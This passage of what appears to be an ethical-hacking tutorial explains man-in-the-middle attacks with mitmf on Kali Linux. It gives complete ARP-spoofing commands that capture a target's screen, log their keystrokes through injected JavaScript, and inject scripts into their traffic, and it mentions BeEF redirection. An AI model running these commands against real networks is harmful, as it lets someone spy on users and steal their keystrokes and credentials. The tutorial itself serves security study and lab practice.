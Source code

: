In conjunction with the Browser Exploitation Framework
[BeEF](https://tools.kali.org/exploitation-tools/beef-xss) you can perform cross-site scripting
attacks in-line with a man-in-the-middle `mitmf` attack using the `--dns` switch. Once you
have set up BeEF, your users can automatically be re-directed to the target IP/location
you have configured rather than the site they were intending to visit.

#### Screen Capture

Upon becoming the man in the middle using the `mitmf` command, you can also configure screen
capture to monitor what the user is viewing using the `--screen` switch for the `mitmf`
command:

{% highlight bash %}
# Host: kali.localhost
$ sudo mitmf --arp --spoof --gateway 192.168.1.1 --target 192.168.1.55 -i wlan0 --screen
# above command takes screen shots of the user activity
{% endhighlight %}

#### Key Logger

Similar to screen capture, you can also use the `mitmf` command to key log the target user
using the `--jskeylogger` switch:

{% highlight bash %}
# Host: kali.localhost
$ sudo mitmf --arp --spoof --gateway 192.168.1.1 --target 192.168.1.55 -i wlan0 --jskeylogger
# above command captures the user key typing activity
{% endhighlight %}

#### Injection

Since traffic passes through your Kali instance prior to being sent from or to the target,
you can inject any kind of data into the network stream prior to it reaching the target
or outbound target using the `mitmf` command with the `--inject` and `--js-payload` switches:

{% highlight bash %}
# Host: kali.localhost
$ sudo mitmf --arp --spoof --gateway 192.168.1.1 --target 192.168.1.55 -i wlan0 --inject --js-payload "alert('test');"
# above command injects javascript inline before response reaches target
# resulting in a dialog being displayed with "test" in the browser
# of the target user
{% endhighlight %}

### Credit

The above tutorial was pieced together with some information from the following sites/resources:

* [Udemy - Learn Ethical Hacking from Scratch by Said Sabih](https://healthedge.udemy.com/learn-ethical-hacking-from-scratch/learn/v4/overview)
